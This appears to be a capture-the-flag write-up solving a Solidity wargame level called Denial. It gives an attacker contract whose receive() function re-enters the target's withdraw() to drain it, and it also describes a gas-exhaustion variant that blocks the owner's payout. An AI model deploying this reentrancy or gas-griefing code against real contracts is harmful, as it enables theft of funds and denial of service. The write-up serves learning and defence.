 ```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IDenial {
    function setWithdrawPartner(address _partner) external;
    function withdraw() external;
}

contract Deny {
    IDenial denial;

    constructor(address denailAddress) public {
        denial = IDenial(denailAddress);
    }

    function setAddress(address denailAddress) public {
        denial = IDenial(denailAddress);
    }

    function setWithdrawPartner() public {
        denial.setWithdrawPartner(address(this));
    }

    // allow deposit of funds
    receive() external payable {
        denial.withdraw();
    }
}
```

My solution is to set Deny contract as the withdraw partner and on receiving the fund from Denial contract, calling the withdraw function again and again until the contract runs out of balance or the gas finishes. The withdraw function has checks-effect-interactions pattern missing so reentrancy attack is easy on this Denial contract. The contract should be made secure such that these kind of attacks can be prevented as the receiving address can be a contract and sending a fund on a malicious contract address can trigger different malicious functions where issues such as this can arise.

Or another solution can be running storage extensive operations on Deny Contract when the fund is received such that the gas finishes and the transfer to the owner fails.

You have to run setWithdrawPartner function on Deny Contract so that the contract is set as the withdrawing partner.